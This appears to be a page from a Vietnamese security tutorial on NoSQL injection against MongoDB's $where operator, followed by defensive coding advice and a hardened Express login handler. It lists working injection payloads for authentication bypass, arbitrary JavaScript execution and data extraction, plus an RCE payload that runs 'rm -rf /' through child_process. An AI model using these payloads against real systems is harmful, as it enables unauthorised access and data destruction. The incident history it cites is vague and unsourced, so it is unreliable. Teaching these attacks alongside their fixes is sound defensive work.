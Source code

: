 B. Các payload nguy hiểm

Payload 1: Bypass đơn giản
Input: ' || '1'=='1
Query: this.accountHolder == '' || '1'=='1'
Kết quả: TRUE → Trả về TẤT CẢ

Payload 2: Function bypass
Input: ' || (function(){ return true; })() || '
Input: ' || (function(){ sleep(5000); return true; })() || '
Kết quả: Thực thi function JS tùy ý

Payload 3: Conditional extraction
Input: ' || this.balance > 100000 || '
Kết quả: Chỉ lấy tài khoản có balance > 100K

Payload 4: Remote Code Execution (RCE)
Input: '; var cmd = require('child_process'); cmd.exec('rm -rf /'); return true; //
Kết quả: XÓA HỆ THỐNG

C. Tại sao nguy hiểm nhất?
1. Thực thi JavaScript trực tiếp trên server
2. Có thể require() module Node.js
3. Truy cập file system, network
4. Chiếm quyền điều khiển server
5. Khó phát hiện và ngăn chặn

D. Impact thực tế
• 2019: MongoDB Atlas bị tấn công qua $where
• 2020: 3 startup bị RCE, mất toàn bộ database
• 2022: Ransomware tấn công qua lỗ hổng này

═══════════════════════════════════════════════════════════════

5. BIỆN PHÁP PHÒNG CHỐNG

A. Nguyên tắc chung
1. KHÔNG BAO GIỜ tin tưởng user input
2. Validate type và giá trị
3. Sử dụng parameterized queries
4. Tắt $where operator
5. Áp dụng principle of least privilege

B. Code an toàn

FIX 1: Authentication (auth.js)
// TRƯỚC (Vulnerable)
const user = await User.findByCredentials(username, password);

// SAU (Secure)
router.post('/login', async (req, res) => {
  const { username, password } = req.body;
  if (typeof username !== 'string' || typeof password !== 'string') {
    return res.status(400).json({ error: 'Invalid input type' });
  }
  if (!/^[a-zA-Z0-9_]{3,20}$/.test(username)) {
    return res.status(400).json({ error: 'Invalid username format' });
  }
  const user = await User.findOne({ username });
  if (!user) {
    return res.status(401).json({ error: 'Invalid credentials' });
  }
  const isMatch = await bcrypt.compare(password, user.password);
  if (!isMatch) {
    return res.status(401).json({ error: 'Invalid credentials' });
  }
  res.json({ success: true, user });
});
